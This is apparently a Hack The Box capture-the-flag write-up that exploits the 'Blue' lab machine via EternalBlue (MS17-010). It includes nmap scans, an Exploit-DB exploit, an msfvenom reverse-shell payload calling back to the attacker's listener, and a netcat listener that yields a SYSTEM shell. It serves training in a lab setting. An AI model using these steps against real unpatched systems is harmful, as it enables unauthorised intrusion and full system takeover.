## Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

    nmap -sC -sV -O -oA initial 10.10.10.40

* **-sC**: run default nmap scripts

* **-sV**: detect service version

* **-O**: detect OS

* **-oA**: output all formats and store in file *nmap/initial*

We get back the following result showing that nine ports are open:

* **Port 139: **running Microsoft Windows netbiois-ssn

* **Port 445: **running microsoft-ds

* **Ports 135, 49152, 49153, 49154, 49155, 49156 & 49157: **running msrpc



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

    nmap -sC -sV -O -p- -oA full 10.10.10.40

We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

    nmap -sU -O -p- -oA udp 10.10.10.40

I managed to root the box and write this blog, while this UDP scan still did not terminate. So instead I ran another UDP scan only for the top 1000 ports.



## Enumeration

As usual, we’ll run the general nmap vulnerability scan scripts to determine if any of the services are vulnerable.

    nmap --script vuln -oA vuln 10.10.10.40



The box is vulnerable to EternalBlue! And guess what the EternalBlue exploit does? It gives me system access, so this box won’t be too difficult to solve. If you’re not familiar with EternalBlue, it exploits Microsoft’s implementation of the Server Message Block (SMB) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

## Exploitation

Search for a non Metasploit exploit in the Exploit Database.

    searchsploit --id MS17-010



We’re working with Windows 7 so we’ll use exploit # 42315. Clone the exploit into the working directory.

    searchsploit -m 42315

After looking at the source code, we need to do three things:

 1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.

 2. Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).

 3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.

First, download the file and rename it to mysmb.py

    wget [https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py](https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py)
    mv 42315.py.1 mysmb.py

Second, use MSFvenom to generate a simple executable with a reverse shell payload.

    msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.6 LPORT=4444 > eternal-blue.exe

Third, we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed.

If you run enum4linux, you can see that guest login is supported.

    enum4linux -a 10.10.10.40

* **-a**: Do all simple enumeration

We’ll add that to the exploit script.



Similarly, we’ll add the reverse shell executable location and get the script to execute it.



Now that we’re done all three tasks, setup a listener on your attack machine.

    nc -nlvp 4444

Then run the exploit.

    python 42315.py 10.10.10.40

We have a shell with system privileges!



Grab the user flag.



Grab the root flag.



## Lessons Learned

I keep repeating this in most of my HTB writeup blogs and I’ll say it again, it goes without saying that you should always update your systems **especially** when updates are released for critical vulnerabilities! If the system administrator had installed the MS17–010 security update, I would have had to find another way to exploit this machine.

## Conclusion

11 machines down, 30 more to go!

